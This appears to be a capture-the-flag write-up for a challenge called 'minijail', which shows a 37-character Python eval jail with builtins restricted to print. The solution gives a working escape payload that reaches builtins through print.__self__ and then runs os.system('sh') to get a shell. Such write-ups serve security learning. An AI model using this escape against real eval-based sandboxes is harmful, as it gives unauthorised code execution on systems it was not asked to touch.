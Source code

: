 # minijail

author is Robin_Jadoul

source: [here](https://imaginaryctf.org/ArchivedChallenges/16)

## challenge

main.py
```py
MAX = 37

x = input(">>> ").strip()
assert len(x) <= MAX
eval(x, {'__builtins__': {'print': print}})
```

## solution

first, send `[b:=print.__self__,b.exec(b.input())]`

this sets the `b` variable with walrus operator to builtins, and then calls `exec(input())`

then, send `print('test');b.__import__('os').system('sh')` to get a shell
